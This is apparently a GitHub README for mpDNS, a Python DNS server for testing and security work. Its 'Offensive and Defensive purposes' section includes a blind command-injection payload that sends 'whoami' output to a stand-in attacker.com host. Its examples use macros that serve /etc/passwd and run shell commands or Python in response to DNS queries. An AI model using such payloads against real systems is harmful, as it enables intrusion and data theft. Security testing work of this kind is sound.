 mpDNS aka multi-purpose DNS Server
--------------------
Simple, configurable "**clone & run**" DNS Server with multiple useful features
- Should work on Python 2 and 3
- names.db -> holds all custom records (see examples)
- Simple wildcards like *.example.com
- Catch unicode dns requests
- Custom actions aka macro:
  - `{{shellexec::dig google.com +short}}` _-> Execute shell command and respond with result_
  - `{{eval::res = '1.1.1.%d' % random.randint(0,256)}}` _-> Evaluate your python code_
  - `{{file::/etc/passwd}}` _-> Respond with localfile contents_
  - `{{resolve}}` _-> Forward DNS request to local system DNS_
  - `{{resolve::example.com}}` _-> Resolve example.com instead of original record_
- Supported query types: `A`, `CNAME`, `TXT`
- Update `names.db` records without restart/reload with `./mpdns.py -e`

Heavily based on <https://github.com/circuits/circuits/blob/master/examples/dnsserver.py>

Usage: `./mpdns.py`
 - Edit **names.db** with `./mpdns.py -e` no restart required

Offensive and Defensive purposes:
-----------
1. You need a light-weight simple dns-server solution for testing purposes (NOT PRODUCTION!)
2. Test for various blind injection vulnerabilities in web applications _(ex. `/ping.php?ip=$(dig $(whoami).attacker.com)`)_
3. Easily infiltrate 65K of data in one `TXT` query
4. DNS Rebinding
5. Execute custom macro action on specific query (useful in malware-analysis lab environments)
6. And lots more. It is highly customizable.

Installing
--------------------
`git clone https://github.com/nopernik/mpDNS`

Limitations
------------------
1. Due to UDP Datagram limit of 65535 bytes, DNS response is limited to approx ~65200 bytes\
this limitation applies to `TXT` records which are splitted into chunks of 256 bytes until response reaches maximum allowed 65200b\
therefore `TXT` record with macro `{{file:localfile.txt}}` is limited to 65200 bytes.
2. No support for nested wildcards **`test.*.example.com`**
3. No support for custom DNS server resolver in `{{resolve::example.com}}` macro
4. `TTL` always set to **0**

Examples
-----------
**names.db example:**
```
# Empty configuration will result in empty but valid responses
#
# Unicode domain names are not supported but still can be catched by the server.
# for example мама-сервер-unicode.google.com will be catched but with SERVFAIL response

passwd.example.com	TXT     {{file::/etc/passwd}}  #comments are ignored
shellexec			TXT     {{shellexec::whoami}}
eval				TXT     {{eval::import random; res = random.randint(1,500)}}
resolve1			A       {{resolve}}
resolve2			A       {{resolve::self}}      #same as previous
resolve3			A       {{resolve::example.com}}
blabla.com			A       5.5.5.5

*					A       127.0.0.1
*.example.com		A		7.7.7.7
c1.example.com		CNAME	c2.example.com
c2.example.com		CNAME	c3.example.com
c3.example.com		CNAME	google.example.com
google.example.com	CNAME	google.com
test.example.com	A		8.8.8.8
google.com			A		{{resolve::self}}
notgoogle.com		A		{{resolve::google.com}}
```

Example output with names.db example:
---------


**Regular resolution from DB**: `dig test.example.com @localhost`
```
;; ANSWER SECTION:
test.example.com.	0	IN	A	8.8.8.8
```
_mpDNS output:_ `- Request from 127.0.0.1:57698      -> test.example.com.	-> 8.8.8.8 (A)`

-----
**Recursive CNAME resolution**: `dig c1.example.com @localhost`

```
;; QUESTION SECTION:
;c1.example.com.			IN	A

;; ANSWER SECTION:
c1.example.com.		0	IN	CNAME	c2.example.com.
c2.example.com.		0	IN	CNAME	c3.example.com.
c3.example.com.		0	IN	CNAME	google.example.com.
google.example.com.	0	IN	CNAME	google.com.
google.com.		0	IN	A	216.58.206.14
```
_mpDNS output:_ 
```
- Request from 127.0.0.1:44120      -> c1.example.com.		-> c2.example.com (CNAME)
- Request from 127.0.0.1:44120      -> c2.example.com		-> c3.example.com (CNAME)
- Request from 127.0.0.1:44120      -> c3.example.com		-> google.example.com (CNAME)
- Request from 127.0.0.1:44120      -> google.example.com	-> google.com (CNAME)
- Request from 127.0.0.1:44120      -> google.com			-> {{resolve::self}} (A)
```

-----

**Wildcard resolution**: `dig not-in-db.com @localhost`

```
;; ANSWER SECTION:
not-in-db.com.		0	IN	A	127.0.0.1
```
_mpDNS output:_ `- Request from 127.0.0.1:38528      -> not-in-db.com.	-> 127.0.0.1 (A)`

-----
**Wildcard subdomain resolution**: `dig wildcard.example.com @localhost`

```
;; ANSWER SECTION:
wildcard.example.com.	0	IN	A	7.7.7.7
```
_mpDNS output:_ `- Request from 127.0.0.1:39691      -> wildcard.example.com.	-> 7.7.7.7 (A)`

-----
**Forward request macro**: `dig google.com @localhost`
```
;; ANSWER SECTION:
google.com.		0	IN	A	172.217.22.110
```
_mpDNS output:_ `- Request from 127.0.0.1:53487      -> google.com.	-> {{resolve::self}} (A)`

-----
**Forward request of custom domain macro**: `dig notgoogle.com @localhost`
```
;; ANSWER SECTION:
notgoogle.com.		0	IN	A	172.217.22.110
```
_mpDNS output:_ `- Request from 127.0.0.1:47797      -> notgoogle.com.	-> {{resolve::google.com}} (A)`

-----
**File contents macro via TXT query**: `dig txt passwd.example.com @localhost`
```
;; ANSWER SECTION:
passwd.example.com.	0	IN	TXT	"root:x:0:0:root:/root:/bin/bash\010daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin\010bin:x:2:2:bin:......stripped"
```
_mpDNS output:_ `- Request from 127.0.0.1:38805      -> passwd.example.com.	-> ['root:x:0:0:root...(2808)'] (TXT)`

-----
**Custom python code macro via TXT query**: `dig txt eval @localhost`
```
;; ANSWER SECTION:
eval.			0	IN	TXT	"320"
```
_mpDNS output:_ `- Request from 127.0.0.1:33821      -> eval.	-> ['320'] (TXT)`

-----
**Shell command macro via TXT query**: `dig txt shellexec @localhost`
```
;; ANSWER SECTION:
shellexec.		0	IN	TXT	"root"
```
_mpDNS output:_ `- Request from 127.0.0.1:50262      -> shellexec.	-> ['root'] (TXT)`

-----

Have fun!
